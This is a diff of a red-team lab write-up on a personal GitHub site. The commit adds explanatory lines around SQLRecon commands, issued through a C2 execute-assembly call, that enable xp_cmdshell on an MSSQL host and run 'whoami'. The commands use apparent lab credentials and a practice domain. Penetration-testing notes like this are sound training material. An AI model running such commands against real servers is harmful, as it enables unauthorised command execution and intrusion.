

Before and after one commit to stillbigjosh/stillbigjosh.github.io, a Markdown page: writeups/red-team-workflow.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/writeups/red-team-workflow.md
+++ b/writeups/red-team-workflow.md
@@ -1068,11 +1066,15 @@ SQL> xp_cmdshell whoami
 
 **C2 (SQLRecon via execute-assembly):**
 
+First, enable `xp_cmdshell`
+
 ```
 execute-assembly SQLRecon.exe /auth:WinDomain /host:10.1.10.22 /domain:north.sevenkingdoms.local /username:samwell.tarly /password:Heartsbane /module:enablexp /i:sa
 ```
 
 ![SQLRecon enable xp_cmdshell](writeups/images/red-team-workflow/20260923161523.png)
+
+Then, execute a system command - `whoami`
 
 ```
 execute-assembly SQLRecon.exe /auth:WinDomain /host:10.1.10.22 /domain:north.sevenkingdoms.local /username:samwell.tarly /password:Heartsbane /module:xpcmd /i:sa /c:whoami
````
Also changed, not shown: other parts of writeups/red-team-workflow.md (+0 -2 lines).
